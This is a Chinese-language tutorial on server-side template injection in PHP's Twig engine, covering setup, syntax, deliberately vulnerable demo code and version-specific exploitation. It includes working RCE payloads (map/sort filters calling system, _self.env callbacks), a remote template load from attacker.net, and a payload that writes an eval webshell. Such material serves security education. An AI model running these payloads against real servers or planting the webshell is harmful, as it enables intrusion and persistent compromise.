# 11.模版注入

## 1. 简介

模板引擎可以让（网站）程序**实现界面与数据分离**，**业务代码与逻辑代码的分离**，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。与此同时，它也扩展了攻击面。除了常规的 XSS 外，注入到模板中的代码还有可能引发 RCE（远程代码执行）。通常来说，这类问题会在博客，CMS，wiki 中产生。虽然模板引擎会提供沙箱机制，依然有许多手段绕过它。

模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。

模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

## 2. SSTI

SSTI就是服务器端模板注入（Server-Side Template Injection）

当前使用的一些框架，比如python的flask，php的tp，java的spring等一般都采用成熟的的MVC的模式，用户的输入先进入Controller控制器，然后根据请求类型和请求的指令发送给对应Model业务模型进行业务逻辑判断，数据库存取，最后把结果返回给View视图层，经过模板渲染展示给用户。

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。

凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是，沙盒绕过只是由于模板引擎发现了很大的安全漏洞，然后模板引擎设计出来的一种防护机制，不允许使用没有定义或者声明的模块，这适用于所有的模板引擎。

凡是使用模板的网站，基本都会存在SSTI，只是能否控制其传参而已。

## 3. 速查表

SSTI（server-side template injection)为服务端模板注入攻击，它主要是由于框架的不规范使用而导致的。主要为python的一些框架，如 jinja2 mako tornado django flask、PHP框架smarty twig thinkphp、java框架jade velocity spring等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，**模板渲染其实并没有漏洞**，主要是程序员**对代码不规范不严谨**造成了模板注入漏洞，造成模板可控。注入的原理可以这样描述：**当用户的输入数据没有被合理的处理控制时，就有可能数据插入了程序段中变成了程序的一部分，从而改变了程序的执行逻辑。**

各框架模板结构如下图所示：



## 4. PHP中的SSTI

### 4.1 Twig

Twig 是一个灵活、快速、安全的 PHP 模板语言。它将模板编译成经过优化的原始 PHP 代码。Twig 拥有一个 Sandbox 模型来检测不可信的模板代码。Twig 由一个灵活的词法分析器和语法分析器组成，可以让开发人员定义自己的标签，过滤器并创建自己的 DSL。

### 4.2 Twig 的安装

这里我们的 Twig 版本是 Twig 3.x，其需要的 PHP 版本为 PHP 7.x

建议通过 Composer 安装 Twig：

```bash
docker run -d -p 8080:80 -v /root/wwwtest/:/app/public/ --name lnmp74 fbraz3/lnmp:7.4
docker exec -it lnmp74 bash
[root@c356af4b5b68 /]# cd /app/public
[root@c356af4b5b68 www]# composer require "twig/twig:^3.0"
```

安装之后可以直接使用 Twig 的 PHP API 进行调用：

```php
<?php
include_once(__DIR__.'/vendor/autoload.php');
// 导入twig框架

$loader = new \Twig\Loader\ArrayLoader([
    'index' => 'Hello {{ name }}!',
]);
// ArrayLoader是通过数组传入模版

$twig = new \Twig\Environment($loader);
// 创建加载好模版的对象

echo $twig->render('index', ['name' => 'whoami']);
// 渲染模版
?>
```

上述代码中，Twig 首先使用一个加载器 Twig_Loader_Array 来定位模板，然后使用一个环境变量 Twig_Environment 来存储配置信息。其中， render() 方法通过其第一个参数载入模板，并通过第二个参数中的变量来渲染模板。

由于模板文件通常存储在文件系统中，Twig 还附带了一个文件系统加载程序：

在网站根目录创建`templates`文件夹，并且写入`index.html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <h1>welcome {{ name }}</h1>
</body>
</html>
```

在php文件中写入

```php
<?php
include_once(__DIR__.'/vendor/autoload.php');

$loader = new \Twig\Loader\FilesystemLoader('./templates');
// 指定模版文件存放的目录

$twig = new \Twig\Environment($loader, [
    'cache' => './cache/views',    // cache for template files
]);
// 指定存放模版缓存的文件夹，渲染后的文件将会临时放在这个地方

echo $twig->render('index.html', ['name' => 'whoami']);
// 渲染index.html文件
?>
```

### 4.3 Twig 模板的基础语法

模板实际就是一个常规的文本文件，它可以生成任何基于文本的格式（HTML、XML、CSV、LaTeX等）。它没有特定的扩展名，.html、.xml、.twig 都行。

模板包含变量或表达，在评估编译模板时，这些带值的变量或表达式会被替换。还有一些控制模板逻辑的标签 tags。下面是一个非常简单的模板，它阐述了一些基础知识：

```html
<!DOCTYPE html>
<html>
    <head>
        <title>My Webpage</title>
    </head>
    <body>
        <ul id="navigation">
        
            <li><a href="{{ item.href }}">{{ item.caption }}</a></li>
        
        </ul>

        <h1>My Webpage</h1>
        {{ a_variable }}
    </body>
</html>
```

调用此模版

```php
<?php
include_once(__DIR__.'/vendor/autoload.php');

$loader = new \Twig\Loader\FilesystemLoader('./templates');
// 指定模版文件存放的目录

$twig = new \Twig\Environment($loader, [
    'cache' => './cache/views', 
]);
// 指定存放模版缓存的文件夹，渲染后的文件将会临时放在这个地方

$navigation = [
    ['href' => 'http://www.baidu.com','caption' => '百度'],
    ['href' => 'http://www.qq.com','caption' => '腾讯']
];
$a_variable = "haha";

echo $twig->render('tags.twig',[
    'navigation' => $navigation,
    'a_variable' => $a_variable
]);
?>
```

效果



有两种形式的分隔符：{ 和 {{{{ ... }}。前者用于执行语句，例如 for 循环，后者用于将表达式的结果输出到模板中。

需要注意的是twig会生产缓存文件，所以导致有时候模版的变化并不能直接看到效果，可以每次都让php先清理缓存，再渲染模版

```php
<?php
require_once __DIR__.'/vendor/autoload.php';

// 开始清理缓存
$cache = __DIR__ . '/cache';
if (file_exists($cache) && is_dir($cache)) {
    $it = new RecursiveDirectoryIterator($cache, RecursiveDirectoryIterator::SKIP_DOTS);
    $files = new RecursiveIteratorIterator($it, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ($files as $file) {
        if ($file->isDir()) {
            rmdir($file->getRealPath());
        } else {
            unlink($file->getRealPath());
        }
    }
}

$loader = new \Twig\Loader\FilesystemLoader('./templates');
// 指定模版文件存放的目录

$twig = new \Twig\Environment($loader, [
    'cache' => './cache/views', 
]);
// 指定存放模版缓存的文件夹，渲染后的文件将会临时放在这个地方

$navigation = [
    ['href' => 'http://www.baidu.com','caption' => '百度'],
    ['href' => 'http://www.qq.com','caption' => '腾讯']
];
$a_variable = "haha";

echo $twig->render('tags.twig',[
    'navigation' => $navigation,
    'a_variable' => $a_variable
]);
?>
```

#### 4.3.1 变量

应用程序将变量传入模板中进行处理，变量可以包含你能访问的属性或元素。你可以使用 . 来访问变量中的属性（方法或 PHP 对象的属性，或 PHP 数组单元），也可以使用所谓的 "subscript" 语法 []:

```plain
{{ foo.bar }}
{{ foo['bar'] }}
```

#### 4.3.2 设置变量

可以为模板代码块内的变量赋值，赋值使用 [set](https://www.osgeo.cn/twig/tags/set.html) 标签：

```plain



```

#### 4.3.3 过滤器

可以通过过滤器 filters 来修改模板中的变量。在过滤器中，变量与过滤器或多个过滤器之间使用 | 分隔，还可以在括号中加入可选参数。可以连接多个过滤器，一个过滤器的输出结果将用于下一个过滤器中。

下面这个过滤器的例子会剥去字符串变量 name 中的 HTML 标签，然后将其转化为大写字母开头的格式:

```plain
{{ name|striptags|title }}

// {{ '<a>whoami<a>'|striptags|title }}
// Output: Whoami!
```

下面这个过滤器将接收一个序列 list，然后使用 join 中指定的分隔符将序列中的项合并成一个字符串：

```plain
{{ list|join }}
{{ list|join(', ') }}

// {{ ['a', 'b', 'c']|join }}
// Output: abc

// {{ ['a', 'b', 'c']|join('|') }}
// Output: a|b|c
```

更多内置过滤器请参考：https://twig.symfony.com/doc/3.x/filters/index.html

#### 4.3.4 函数

在 Twig 模板中可以直接调用函数，用于生产内容。如下调用了 range() 函数用来返回一个包含整数等差数列的列表：

```plain

    {{ i }},


// Output: 0, 1, 2, 3,
```

更多内置函数请参考：https://twig.symfony.com/doc/3.x/functions/index.html

#### 4.3.5 控制结构

控制结构是指控制程序流程的所有控制语句 if、elseif、else、for 等，以及程序块等等。控制结构出现在 { 块中。

例如使用 for 标签进行循环：

```plain
<h1>Members</h1>
<ul>
    
        <li>{{ user.username|e }}</li>
    
</ul>
```

if 标签可以用来测试表达式：

```plain

    <ul>
        
            <li>{{ user.username|e }}</li>
        
    </ul>

$users = [['username'=>'alice'],['username'=>'bob']];
echo $twig->render('index.html', ['name' => '<h1>whoami</h1>','users'=>$users]);
```

更多 tags 请参考：https://twig.symfony.com/doc/3.x/tags/index.html

#### 4.3.6 注释

要在模板中注释某一行，可以使用注释语法 {{# ...#}：

```plain
{# note: disabled template because we no longer use this
    
        ...
    
#}
```

#### 4.3.7 引入其他模板

Twig 提供的 include 函数可以使你更方便地在模板中引入模板，并将该模板已渲染后的内容返回到当前模板：

```plain
{{ include('sidebar.html') }}
```

#### 4.3.8 模板继承

Twig 最强大的部分是模板继承。模板继承允许您构建一个基本的 "skeleton" 模板，该模板包含站点的所有公共元素，并定义子模版可以覆写的 blocks 块。

然后允许其他子模板集成并重写。

比如，我们先来定义一个基础的模板 base.html，它定义了一个基础的 HTML skeleton 文档：

```plain
<!DOCTYPE html>
<html>
    <head>
        
            <link rel="stylesheet" href="style.css" />
            <title> - My Webpage</title>
        
    </head>
    <body>
        <div id="content"></div>
        <div id="footer">
            
                &copy; Copyright 2011 by <a href="http://domain.invalid/">you</a>.
            
        </div>
    </body>
</html>
```

在这个例子中，block 标签定义了 4 个块，可以由子模版进行填充。对于模板引擎来说，所有的 block 标签都可以由子模版来覆写该部分。

子模版大概是这个样子的：

```plain


Index

    {{ parent() }}
    <style type="text/css">
        .important { color: #336699; }
    </style>


    <h1>Index</h1>
    <p class="important">
        Welcome to my awesome homepage.
    </p>

```

其中的 extends 标签是关键所在，其必须是模板的第一个标签。 extends 标签告诉模板引擎当前模板扩展自另一个父模板，当模板引擎评估编译这个模板时，首先会定位到父模板。由于子模版未定义并重写 footer 块，就用来自父模板的值替代使用了。

更多 Twig 的语法请参考：https://twig.symfony.com/doc/3.x/

#### 4.3.9 Twig 模板注入

和其他的模板注入一样，Twig 模板注入也是发生在直接将用户输入作为模板，比如下面的代码：

```php
<?php
require_once __DIR__.'/vendor/autoload.php';

$loader = new \Twig\Loader\ArrayLoader();
$twig = new \Twig\Environment($loader);

$template = $twig->createTemplate("Hello {$_GET['name']}!");

echo $template->render();
```

比如下图这样，后面会讲解原理

```php
?name={{["id"]|map("system")}}
```



这里的代码中，`createTemplate`时注入了`$_GET['name']`，此时就会引发模板注入。而如下代码则不会，因为模板引擎解析的是字符串常量中的`{{{{name}}`，而不是动态拼接的`$_GET["name"]`：

```php
<?php
require_once __DIR__.'/vendor/autoload.php';

$loader = new \Twig\Loader\ArrayLoader([
    'index' => 'Hello {{ name }}!',
]);
$twig = new \Twig\Environment($loader);

echo $twig->render('index', ['name' => $_GET["name"]]);
```



而对于 Twig 模板注入利用，往往就是借助模板中的一些方法或过滤器实现攻击目的。下面我们分版本进行讲解。

#### 4.3.10 Twig 1.x

创建twgi 1.x环境

```bash
┌──(root㉿kali)-[~]
└─# docker exec -it lnmp74 bash
root@100db6757f60:/# cd /app/public/
root@100db6757f60:/app/public# composer require "twig/twig:^1.35"
```

测试代码如下：

```php
<?php
include_once(__DIR__.'/vendor/autoload.php');

$loader = new \Twig\Loader\ArrayLoader();
$twig = new \Twig\Environment($loader);

$template = $twig->createTemplate($_GET['name']);
// 直接使用get收到的name变量作为模版

echo $template->render();
// 渲染模版
?>
```

存在SSTI

```bash
?name={{ name }}
```



在 Twig 1.x 中存在三个全局变量：

- `_self`：引用当前模板的实例。
- `_context`：引用当前上下文。
- `_charset`：引用当前字符集。

对应的代码是：

```php
protected $specialVars = [
        '_self' => '$this',
        '_context' => '$context',
        '_charset' => '$this->env->getCharset()',
    ];
```

这里主要就是利用 _self 变量，它会返回当前 \Twig\Template 实例，并提供了指向 Twig_Environment 的 env 属性，这样我们就可以继续调用 Twig_Environment 中的其他方法，从而进行 SSTI。

比如以下 Payload 可以调用 setCache 方法改变 Twig 加载 PHP 文件的路径，在 allow_url_include 开启的情况下我们可以通过改变路径实现远程文件包含：

```php
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

# 这里将Twig的缓存选项设置为了一个远程FTP地址ftp://attacker.net:xxxx导致Twig在将模板加载到本地缓存之前，尝试从指定的FTP地址加载模板，当我们控制这个地址，就可以将恶意代码植入模板中，进行攻击。植入后再加载模板，比如加载的模版名字叫backdoor
```

此外还有 getFilter 方法：

```php
public function getFilter($name)
  {
    ...
    foreach ($this->filterCallbacks as $callback) {
    if (false !== $filter = call_user_func($callback, $name)) {
      return $filter;
    }
  }
  return false;
}

public function registerUndefinedFilterCallback($callable)
{
  $this->filterCallbacks[] = $callable;
}
```

我们在 getFilter 里发现了危险函数 call_user_func。通过传递参数到该函数中，可以调用任意 PHP 函数。所以我们只需要给$callback和$name赋值就可以实现命令执行，$callback的赋值需要通过调用registerUndefinedFilterCallback()方法。Payload 如下：

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
// 由于twig官方已经修复了此问题，所以twig 1.x 新版本目前无法复现
// Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



但是在 Twig 2.x 及 Twig 3.x 以后，_self 的作用发生了变化，只能返回当前实例名字符串：

[](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/20210813161834.png)

所以以上 Payload 只能适用于 Twig 1.x 。

然而现在Twig 1.x最新版已经修复了这个_self，上面的案例要复现成功，只能找到较早版本的1.x

#### 4.3.11 Twig 2.x / 3.x

测试代码如下：

```php
<?php
include_once(__DIR__.'/vendor/autoload.php');

$loader = new \Twig\Loader\ArrayLoader();
$twig = new \Twig\Environment($loader);

$template = $twig->createTemplate($_GET['name']);
// 直接使用get收到的name变量作为模版

echo $template->render();
// 渲染模版
?>
```

到了 Twig 2.x / 3.x 版本中，_self 变量在 SSTI 中早已失去了他的作用，但我们可以借助新版本中的一些过滤器实现攻击目的。

##### 4.3.11.1 使用 map 过滤器

在 Twig 3.x 中，map 这个过滤器可以允许用户传递一个箭头函数，并将这个箭头函数应用于序列或映射的元素：

```plain


{{ people|map(p => "#{p.first} #{p.last}")|join(', ') }}
// Output: outputs Bob Smith, Alice Dupond




{{ people|map((last, first) => "#{first} #{last}")|join(', ') }}
// Output: outputs Bob Smith, Alice Dupond
```

当我们如下使用 map 时：

```plain
{{["Mark"]|map((arg)=>"Hello #{arg}!")}}
```

Twig 3.x 会将其编译成：

```plain
twig_array_map([0 => "Mark"], function ($__arg__) use ($context, $macros) { $context["arg"] = $__arg__; return ("hello " . ($context["arg"] ?? null))})
```

这个 twig_array_map 函数的源码如下：

```php
function twig_array_map($array, $arrow)
{
    $r = [];
    foreach ($array as $k => $v) {
        $r[$k] = $arrow($v, $k);    // 直接将 $arrow 当做函数执行
    }

    return $r;
}
```

从上面的代码我们可以看到，传入的 $arrow 直接就被当成函数执行，即 $arrow($v, $k)，而 $v 和 $k 分别是 $array 中的 value 和 key。$array 和 $arrow 都是我们我们可控的，那我们可以不传箭头函数，直接传一个可传入两个参数的、能够命令执行的危险函数名即可实现命令执行。通过查阅常见的命令执行函数：

```php
system ( string $command [, int &$return_var ] ) : string
passthru ( string $command [, int &$return_var ] )
exec ( string $command [, array &$output [, int &$return_var ]] ) : string
shell_exec ( string $cmd ) : string
```

前三个都可以使用。相应的 Payload 如下：

```php
{{["id"]|map("system")}}
{{["id"]|map("passthru")}}
{{["id"]|map("exec")}}    // 无回显
```

其中`{{{{["id"]|map("system")}}`会被成下面这样：

```php
twig_array_map([0 => "id"], "system")
```

最终在`twig_array_map`函数中将执行`system('id',0)`。执行结果如下图所示：



如果上面这些命令执行函数都被禁用了，我们还可以执行其他函数执行任意代码：

```plain
{{{"<?php phpinfo();eval($_POST[whoami])":"/app/public/hell.php"}|map("file_put_contents")}}    // 写 Webshell
```



按照 map 的利用思路，我们去找带有 $arrow 参数的，可以发现下面几个过滤器也是可以利用的。

##### 4.3.11.2 使用 sort 过滤器

这个 sort 筛选器可以用来对数组排序。

```plain

    ...

```

你可以传递一个箭头函数来对数组进行排序：

```plain



    {{ fruit }}


// Output in this order: Oranges, Grapes, Apples
```

类似于 map，模板编译的过程中会进入 twig_sort_filter 函数，这个 twig_sort_filter 函数的源码如下：

```plain
function twig_sort_filter($array, $arrow = null)
{
    if ($array instanceof \Traversable) {
        $array = iterator_to_array($array);
    } elseif (!\is_array($array)) {
        throw new RuntimeError(sprintf('The sort filter only works with arrays or "Traversable", got "%s".', \gettype($array)));
    }

    if (null !== $arrow) {
        uasort($array, $arrow);    // 直接被 uasort 调用 
    } else {
        asort($array);
    }

    return $array;
}
```

从源码中可以看到，$array 和 $arrow 直接被 uasort 函数调用。众所周知 uasort 函数可以使用用户自定义的比较函数对数组中的元素按键值进行排序，如果我们自定义一个危险函数，将造成代码执行或命令执行：

```plain
php > $arr = ["id",0];
php > usort($arr,"system");
uid=0(root) gid=0(root) groups=0(root)
php >
```

知道了做这些我们便可以构造 Payload 了：

```plain
{{["id", 0]|sort("system")}}
{{["id", 0]|sort("passthru")}}
{{["id", 0]|sort("exec")}}    // 无回显
```

